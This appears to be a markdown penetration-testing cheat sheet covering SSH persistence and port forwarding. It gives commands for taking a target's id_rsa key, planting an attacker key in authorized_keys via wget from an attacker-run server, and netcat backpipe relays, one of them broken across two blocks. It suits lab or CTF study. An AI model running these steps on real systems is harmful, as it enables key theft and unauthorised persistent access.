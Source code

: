 SSH with id_rsa file
---

with remote access/shell on target machine, check in `/home/<username>/.ssh/id_rsa` for the rsa file. <br>
if there, get it on attack machine and change permissions to read/write for user `chmod 600 id_rsa` <br><br>
      *NOTE: without correct permissions on that file ssh won't allow login (chmod 600 or 400)* <br><br>
after that, you should be able to ssh into target with: <br>
```
$ ssh <user>@<target_IP> -i id_rsa -p <port> *if non standard ssh port is used*
```

if the target doesn't have a generated id_rsa file you can generate your own and put the public key into the `authorized_keys` file on the target machine.<br>

to generate your own: <br>
```
$ ssh-keygen
# generates id_rsa and id_rsa.pub files in .ssh folder on local machine // follow prompts to pw protect file
```
Next, copy the content of the id_rsa.pub file and put it inside the authorized_keys file on the target machine (located in /.ssh folder). <br>

*NOTE: if there isn't an authorized_keys file in /.ssh you'll need to make one*
```
(on target machine)
/.ssh $ touch authorized_keys
# creates the file

/.ssh $ chmod 600 authorized_keys
# changes permissions for the user to read/write to file

NOTE: to get your file to target system set up python server on attack machine and use wget from target machine

(on attack machine)
$ python3 -m http.server <port>
# sets up server on your machine for target machine to grab files

(on target machine)
/.ssh $ wget http://<attacker_IP>:<port>/path/to/public/key
# grabs id_rsa_pub file

/.ssh $ cat id_rsa_pub
# displays the contents to be copied (can remove file afterwards)
 
/.ssh $ nano authorized_keys
# opens the file with nano to be edited // paste contents from the pub file here
```

After that you can ssh into target machine with your id_rsa file from attack machine.<br><br>

# Port Forwarding
```
FPipe.exe -l [local port] -r [remote port] -s [local port] [local IP]
```
```
FPipe.exe -l 80 -r 80 -s 80 192.168.1.7
```
```
ssh -[L/R] [local port]:[remote ip]:[remote port] [local user]@[local ip]
```
```
ssh -L 8080:127.0.0.1:80 root@192.168.1.7 # Local Port
```
```
ssh -R 8080:127.0.0.1:80 root@192.168.1.7 # Remote Port
```
```
mknod backpipe p ; nc -l -p [remote port] < backpipe | nc [local IP] [local port] >backpipe
```
```
mknod backpipe p ; nc -l -p 8080 < backpipe | nc 10.1.1.251 80 >backpipe # Port Relay
```
```
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow 1>backpipe # Proxy (Port 80 to 8080)
```
```
backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc
```
```
localhost 80 | tee -a outflow & 1>backpipe # Proxy monitor (Port 80 to 8080)
```
